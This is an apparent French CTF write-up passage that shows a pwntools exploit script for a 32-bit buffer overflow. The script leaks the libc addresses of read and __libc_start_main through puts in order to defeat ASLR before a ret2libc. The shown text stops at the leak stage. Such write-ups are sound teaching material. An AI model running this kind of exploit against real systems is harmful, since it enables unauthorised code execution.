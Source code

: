 ```c
08049196 <vuln>:
 8049196:    55                       push   ebp
 8049197:    89 e5                    mov    ebp,esp
 8049199:    53                       push   ebx
```

Le but ici, va être d'overflow, puis d'exécuter `puts` avec comme argument la fonction `read` pour récupérer son adresse dans la libc et de jump à nouveau sur `main` pour exécuter de nouveau `puts` avec cette fois-ci `__libc_start_main` en argument.

Grâce a ces deux leaks, je vais pouvoir récupérer la libc distante.
Cela va aussi me permettre de casser l'ASLR et de récupérer l'adresse de `system` ainsi que de la string `/bin/sh`.
Ensuite, je pourrai faire un ret2libc.

A nouveau, je test d'abord en local.

```python
#!/usr/bin/env python3

from exploit import u32
from pwn import *

# LIBC
LIBC = ELF("./libc/libc_local.so")

if __name__ == "__main__":
    # Connect to the challenge
    p = process("./service")
    # Recv the header
    print(p.read())

    # main function addr
    main_addr = p32(0x08049209)
    # Address of puts
    puts_addr = p32(0x8049060)
    # PLT address
    read_plt = p32(0x0804c010)
    libc_start_main = p32(0x0804c018)

    # Create payload
    payload_leak = b"".join([
        b"A" * 112,# Buffer overflow
        puts_addr,# Puts fonction
        main_addr,# Return to main
        read_plt# Get addr of read@LIBC
    ])

    # Leak read@libc
    p.send(payload_leak + b"\n")
    read_leak = p.read()[:4]
    hex_read_leak = read_leak[::-1].hex()
    print(f"[+] Found read@libc : 0x{hex_read_leak}")

    # Create payload
    payload_leak = b"".join([
        b"A" * 112,# Buffer overflow
        puts_addr,# Puts fonction
        main_addr,# Return to main
        libc_start_main# Get addr of __libc_start_main@LIBC
    ])

    # Leak __libc_start_main@libc
    p.send(payload_leak + b"\n")
    libc_start_main_leak = p.read()[:4]
```